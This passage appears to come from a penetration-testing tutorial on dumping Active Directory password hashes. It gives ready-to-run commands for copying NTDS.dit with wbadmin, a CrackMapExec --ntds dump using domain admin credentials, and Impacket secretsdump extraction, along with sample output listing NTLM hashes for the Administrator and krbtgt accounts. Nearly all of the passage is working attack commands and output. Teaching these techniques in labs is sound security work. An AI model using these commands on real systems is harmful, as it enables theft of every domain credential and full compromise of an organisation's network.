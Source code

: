 #### Method 2: Using Windows Built-in Backup Utilities

Windows provides native tools for backing up Active Directory, which can be leveraged:

```cmd
# Create a directory for the backup
C:\> mkdir C:\ADBackup

# Use Windows Server Backup to create a system state backup
C:\> wbadmin start systemstatebackup -backuptarget:C:\ADBackup -quiet

# Mount the backup
C:\> wbadmin get versions
C:\> mkdir C:\ADRestore
C:\> wbadmin start recovery -version:01/01/2023-00:00 -itemtype:app -items:AD -recoveryTarget:C:\ADRestore -notrestoreacl -quiet

# Access the NTDS.dit file in the backup
# It will typically be in C:\ADRestore\Windows\NTDS\ntds.dit
```

#### Method 3: Using PowerShell and CrackMapExec

For remote extraction, CrackMapExec provides a streamlined approach:

```bash
# Using crackmapexec with domain admin credentials
crackmapexec smb 10.129.201.57 -u administrator -p 'Password123!' --ntds

# Example output (truncated)
SMB         10.129.201.57    445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:inlanefreight.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445    DC01             [+] inlanefreight.local\administrator:Password123! (Pwn3d!)
SMB         10.129.201.57    445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445    DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445    DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445    DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         10.129.201.57    445    DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
```

### Extracting and Analyzing Hashes

#### Using Secretsdump.py (Impacket)

After obtaining the NTDS.dit and SYSTEM files, you can extract the hashes using Impacket's secretsdump.py:

```bash
# Local extraction from obtained files
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

# Direct remote extraction
secretsdump.py domain/administrator:password@10.129.201.57
```
